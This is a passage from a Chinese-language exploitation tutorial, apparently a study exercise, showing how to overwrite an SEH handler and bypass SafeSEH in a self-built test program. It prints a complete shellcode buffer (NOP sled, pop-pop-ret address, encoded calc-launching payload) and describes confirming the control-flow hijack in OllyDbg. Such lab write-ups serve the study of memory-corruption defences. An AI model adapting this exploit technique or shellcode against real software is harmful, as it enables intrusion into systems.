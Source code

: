 可以根据以上信息，自行理解图示。

最终的shellcode如下：

```c
char shellcode[] = 
// 220 nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// PPR's address (in our dll)
"\x12\x10\x12\x11"
// 8 nop
"\x90\x90\x90\x90\x90\x90\x90\x90"
// 206 calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd";
```

去掉`int 3`并编译后，我们可以在OD中试运行，在加载模块后将断点设在`0x11121012`，然后F9，看到顺利执行到这里，说明覆盖SEH并绕过了主程序的SafeSEH，劫持控制流成功：

![Bildschirmfoto 2018-08-28 um 4.00.52 PM.png]({{ site.url }}/images/0day/F7FFC201164094258EE61B2430607B55.png)

接着，我们单步走到shellcode中：

![Bildschirmfoto 2018-08-28 um 4.01.25 PM.png]({{ site.url }}/images/0day/8FA8146544F59387FA763972C90835AB.png)

可以发现有两个地方需要注意：首先是我们的PPR地址`0x11121012`被当作了指令，幸好它没有影响逻辑流；接着是之前提到的进入`__try{}`时将我们中间填充的8个nop的后4个字节覆盖为了`0x00000000`。幸好，这里也没有影响逻辑流。所以最终可以成功弹出计算器。

